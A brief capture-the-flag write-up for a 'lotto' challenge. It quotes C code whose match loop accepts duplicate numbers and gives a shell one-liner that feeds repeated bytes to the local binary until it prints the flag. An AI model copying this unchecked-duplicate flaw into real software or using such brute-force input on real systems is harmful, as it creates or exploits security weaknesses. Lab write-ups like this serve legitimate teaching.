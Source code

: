 # Lotto
In a real lottery, you choose distinct numbers.

If you look at these lines of the supplied code:

```int match = 0, j = 0;
for(i=0; i<6; i++){
    for(j=0; j<6; j++){
        if(lotto[i] == submit[j]){
            match++;
        }
    }
}
```

There's no check for duplicates, which means we can supply the same number as many times as we want and eventually one of the random bytes is gonna match all 6 numbers.

We can then come up with a smart answer:

`$ (for i in $(seq 50); do echo 1; sleep 1; printf "\x01\x01\x01\x01\x01\x01"; sleep 1; done; echo 3) | ./lotto`

And hit Ctrl-C as soon as we get the flag.
